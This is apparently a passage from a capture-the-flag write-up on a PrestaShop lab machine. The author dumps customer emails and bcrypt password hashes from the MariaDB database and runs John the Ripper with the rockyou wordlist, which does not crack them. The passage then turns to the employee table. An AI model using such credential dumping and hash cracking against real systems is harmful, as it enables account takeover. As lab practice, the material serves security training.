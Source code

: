 ```bash
| secure_key                 | varchar(32)         | NO   |     | -1                  |                |
| note                       | text                | YES  |     | NULL                |                |
| active                     | tinyint(1) unsigned | NO   |     | 0                   |                |
| is_guest                   | tinyint(1)          | NO   |     | 0                   |                |
| deleted                    | tinyint(1)          | NO   |     | 0                   |                |
| date_add                   | datetime            | NO   |     | NULL                |                |
| date_upd                   | datetime            | NO   |     | NULL                |                |
| reset_password_token       | varchar(40)         | YES  |     | NULL                |                |
| reset_password_validity    | datetime            | YES  |     | NULL                |                |
+----------------------------+---------------------+------+-----+---------------------+----------------+
```

```bash
MariaDB [prestashop]> select email,passwd from ps_customer;
+----------------------+--------------------------------------------------------------+
| email                | passwd                                                       |
+----------------------+--------------------------------------------------------------+
| adam@trickster.htb   | $2y$10$kY2G39RBz9P0S48EuSobuOJba/HgmQ7ZtajfZZ3plVLWnaBbS4gei |
| anonymous@psgdpr.com | $2y$10$054Mo38DcRSLaMX9OhT5UuhYSQvorGu8nZb9GubbAv3Roei6RS2QW |
| pub@prestashop.com   | $2y$10$Cw68h0u8YeP6IiYRRaOjQu4AV7X9BTQL3ZK4CtHU16PNDg7LB4mEG |
| raccoon@raccoon.xyz  | $2y$10$69i9m0r66NREfcCA/0RfPuqvDkUU6G.1urpe9nAKHC2XgyY69lM5G |
+----------------------+--------------------------------------------------------------+
```

```bash
john hashes --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:15 0.09% (ETA: 22:33:08) 0g/s 200.0p/s 200.0c/s 200.0C/s hottie21..bluejay
Session aborted
```

Those didn't crack so I looked a bit closer and saw an employee database. Probably should have gone there first as the admin wouldn't be a customer.

```bash
MariaDB [prestashop]> describe ps_employee;
+--------------------------+---------------------+------+-----+---------------------+----------------+
| Field                    | Type                | Null | Key | Default             | Extra          |
+--------------------------+---------------------+------+-----+---------------------+----------------+
| id_employee              | int(10) unsigned    | NO   | PRI | NULL                | auto_increment |
| id_profile               | int(10) unsigned    | NO   | MUL | NULL                |                |
| id_lang                  | int(10) unsigned    | NO   |     | 0                   |                |
| lastname                 | varchar(255)        | NO   |     | NULL                |                |
| firstname                | varchar(255)        | NO   |     | NULL                |                |
```